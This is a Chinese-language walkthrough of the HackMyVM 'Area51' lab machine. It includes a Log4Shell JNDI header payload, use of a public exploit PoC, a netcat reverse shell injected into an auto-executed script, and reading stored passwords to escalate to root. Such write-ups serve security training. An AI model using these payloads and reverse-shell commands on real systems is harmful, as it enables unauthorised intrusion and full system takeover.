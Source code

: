 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/vMOVkaGYgjgQ3RBXJsGTwg)

### 靶机信息

```
靶机地址：https://hackmyvm.eu/machines/machine.php?vm=Area51
```

名称：Area51(51区)

难度：中等

创作者：bit

发布日期：2021-12-24

目标：user.txt和root.txt

### 搭建靶机

下载完Area51.ova后，使用Oracle VM VirtualBox导入即可

![图片](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqd1TjczRGJ93fAObZUQQlm1MAmjFmFDHj9rlmRsKrKKdLTIicnkPrTJBV0LicMC0ghb3QEVUd4MtSQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

导入时注意！！不要勾上USB控制器，不然会出错  

![图片](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqd1TjczRGJ93fAObZUQQlmQyd7bkiaQ9FAnQ4tFmqcWY6Oj8vlvyicTBcn0OESyDTicI4EE6dziaSM3Q/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

导入完成后，直接启动即可，就可以开始靶机之旅  

### 实验环境

```
攻击机：VMware Kali 192.168.2.148  
目标机：VirtualBox Debian IP自动获取
```

### 信息收集

扫描局域网内的靶机IP地址

```
nmap -sn 192.168.2.0/24
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

端口扫描，扫描目标机器所开放的服务  

```
nmap -A -p- 192.168.2.108
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

扫描到22(SSH)、80(HTTP)、8080(HTTP)三个端口，使用火狐浏览器访问80端口，192.168.2.108  

好家伙佛波乐(FBI)页面，访问下8080端口，192.168.2.108:8080

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

发现是一个400报错页面  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

目录扫描，扫描一些敏感文件之类的，使用gobuster来扫描  

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.2.108/ -x php,html,txt
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

扫描到一个note.txt，访问下192.168.2.108/note.txt  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

翻译看看  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

### 渗透测试  

提示存在Log4j漏洞，猜测到很有可能跟8080端口有关，直接访问，使用Burp的插件log4j扫描看看

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

发现X-Api-Version：参数存在漏洞  

存在log4j漏洞，使用poc(https://github.com/kozmer/log4j-shell-poc)拿shell

在kali机器中，log4j-shell-poc目录下必须有jdk1.8.0_20文件夹的java

(https://repo.huaweicloud.com/java/jdk/8u201-b09/jdk-8u201-linux-x64.tar.gz)

```
git clone https://github.com/kozmer/log4j-shell-poc.git  
cd log4j-shell-poc  
python3 poc.py --userip 192.168.2.148
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

新开一个终端页面开启监听  

```
nc -nvlp 9001
```

再新开一个终端页面，输入刚刚的payload

```
curl 'http://192.168.2.108:8080' -H 'X-Api-Version: ${jndi:ldap://192.168.2.148:1389/a}'
```

监听这边的终端就收到了

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

发现是在docker里面，上传一个linpeas.sh搜集下信息  

kali机器下载好linpeas.sh，新开一个终端页面开启远程下载服务

```
python3 -m http.server 7788
```

监听这边的终端页面执行下载linpeas.sh

```
wget http://192.168.2.148:7788/linpeas.sh
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

执行linpeas.sh信息收集  

```
chmod +x linpeas.sh  
./linpeas.sh
```

发现一些目录查看下

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```
cat /var/tmp/.roger，查询到roger的密码  
使用ssh远程登录  
ssh roger@192.168.2.108  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

拿到user.txt下的一个FLAG=[xxxxxx]  

继续使用linpeas.sh搜集信息

```
wget http://192.168.2.148:7788/linpeas.sh  
chmod +x linpeas.sh  
./linpeas.sh
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

发现了roger下有个kang  

```
cat /etc/pam.d/kang，发现是kang的密码  
su kang
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

发现kang的主目录发生了一些奇怪的事情，一个文件不断出现并消失  

看起来像是kang用户创建了一个shell脚本，执行所有的.sh文件并删除它们

```
echo "echo test >/tmp/test" > test.sh  
ls /tmp/test -l  
echo "nc -e /bin/bash 192.168.2.148 4444" >test.sh
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

新开一个终端页面开启监听  

```
nc -nvlp 4444  
python3 -c 'import pty;pty.spawn("/bin/bash")'  
cd root  
cat root.txt
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

成功获取到root权限下的FLAG=[xxxxx]  

          欢迎大家的点赞与转发。祝大家新年快乐，开工大吉！！！！！

 ![](http://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqKCK7LiayIC9huFRNNpFypRfxehNOAo67W1EIOVJJfWQMXSMNmXtd9D0GjeLaRxG6GcfDCnlMQq0Q/0?wx_fmt=png) ** 亿人安全 ** 知其黑，守其白。手握利剑，心系安全。主要研究方向包括：Web、内网、红蓝对抗、代码审计、安卓逆向、CTF系统。 63篇原创内容   公众号